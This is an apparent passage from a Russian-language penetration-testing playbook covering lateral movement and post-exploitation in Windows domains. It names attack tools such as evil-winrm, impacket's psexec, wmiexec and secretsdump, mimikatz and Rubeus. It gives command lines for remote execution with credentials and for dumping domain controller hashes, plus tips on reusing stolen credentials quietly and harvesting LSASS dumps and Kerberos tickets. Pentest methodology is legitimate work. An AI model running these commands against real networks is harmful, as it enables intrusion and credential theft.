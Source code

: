 ## 8. Фаза 4 — Эксплуатация и lateral movement

Цель: перемещаться по сети, запускать контрольно-выявляющие команды, использовать креды для доступа к другим хостам.

### Инструменты

* `evil-winrm`, `psexec.py`, `wmiexec.py`, `smbexec.py`, `crackmapexec`.

### Примеры

```bash
# Подключение через WinRM (evil-winrm)
evil-winrm -i <target_ip> -u 'user' -p 'Passw0rd'

# psexec (impacket) для выполнения команд
python3 psexec.py domain/user:pass@<target>

# wmiexec
python3 wmiexec.py domain/user:pass@<target>
```

### Lateral movement рекомендации

* Используй украденные creds сначала на менее критичных машинах.
* Проверяй live-сервисы и используемые порты; ограничивай шум (меньше параллельных соединений).

## 9. Фаза 5 — Пост-эксплуатация и эксфильтрация секретов

Цель: получить привилегии (DA), собрать хэши, токены, сохранить доказательства и подготовить рекомендации.

### Инструменты

* `secretsdump.py`, `mimikatz` (на целевой Windows), `lsassy`, `rubeus`.

### Примеры

```bash
# secretsdump (импакет) — дамп хэшей с DC (если есть привилегии)
python3 secretsdump.py domain/administrator:Pass@dc

# Использование mimikatz — запускать на целевой Windows (PowerShell/PSExec)
# Rubeus — для Kerberos ticket ops (Windows)
```

### Что собирать

* NTLM хэши пользователей и компов, дампы LSASS, Kerberos ticket'ы (TGT/TGS), конфигурации сервисов.

## 10. Фаза 6 — Анализ, отчёт и рекомендации
